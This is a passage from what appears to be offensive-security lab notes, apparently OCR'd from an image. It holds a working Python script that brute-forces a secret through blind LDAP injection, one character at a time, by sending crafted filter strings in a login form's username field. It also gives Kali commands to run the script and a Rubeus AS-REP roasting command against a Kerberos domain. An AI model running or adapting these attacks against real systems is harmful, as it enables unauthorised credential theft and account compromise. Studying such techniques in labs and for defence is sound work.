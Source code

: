 ```python
}

while successful_response_found:
    successful_response_found = False

    for char in char_set:
        #print(f"Trying password character: {char}")

        # Adjust data to target the password field
        data = {'username': f'{successful_chars}{char}*)(|(&','password': 'pwd)'}

        # Send POST request with headers
        response = requests.post(url, data=data, headers=headers)

        # Parse HTML content
        soup = BeautifulSoup(response.content, 'html.parser')

        # Adjust success criteria as needed
        paragraphs = soup.find_all('p', style='color: green;')

        if paragraphs:
            successful_response_found = True
            successful_chars += char
            print(f"Successful character found: {char}")
            break

    if not successful_response_found:
        print("No successful character found in this iteration.")

print(f"Final successful payload: {successful_chars}")
```

**Kali**

```shell-session
python3 -m venv myenv
source myenv/bin/activate
pip3 install bs4
pip3 install requests
python3 script.py
```

## AS-REP Roasting w/ Rubeus

**Examples**

[#as-rep-roasting-w-rubeus](../../walkthroughs/tryhackme/attacking-kerberos.md#as-rep-roasting-w-rubeus "mention")

**Victim**

```
Rubeus.exe asreproast
```
